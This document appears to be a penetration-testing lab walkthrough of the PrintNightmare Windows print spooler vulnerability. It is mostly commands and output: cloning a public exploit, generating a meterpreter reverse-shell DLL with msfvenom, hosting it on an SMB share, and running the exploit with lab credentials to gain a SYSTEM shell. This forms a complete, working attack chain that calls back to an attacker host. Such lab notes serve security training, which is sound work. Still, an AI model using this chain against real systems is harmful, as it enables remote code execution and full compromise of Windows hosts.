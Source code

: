 ```yaml
---
title: PrintNightmare
draft: false
tags:
  - printnightmare
---
```

PrintNightmare is made of [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675).

Let's first clone the exploit:

```shell-session
jadu101@htb[/htb]$ git clone https://github.com/cube0x0/CVE-2021-1675.git
```

In order for this exploit to work, we will need to use cube0x0's version of impacket. We need to uninstall the version of Impacket on attack host and reinstall cube0x0's version:

```shell-session
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

## Enumerate for MS-RPRN

Let's use rpcdump.py to see if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

```shell-session
jadu101@htb[/htb]$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

## Generate DLL Payload

Now that we have confirmed above, let's move on to using the exploit. We will craft a DLL payload using msfvenom:

```shell-session
jadu101@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 8704 bytes
```

## SMB Share

Now we will host this payload in a SMB share:

```shell-session
jadu101@htb[/htb]$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```


## MSF multi/handler

Once the share is created and hosting our payload, we can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target.

```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080
```


## Run Exploit

Share is hosting the payload and our multi/handler is listening, let's run the exploit:

```shell-session
jadu101@htb[/htb]$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

<SNIP>
```



On MSF multi/handler, we get a shell:

```shell-session
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

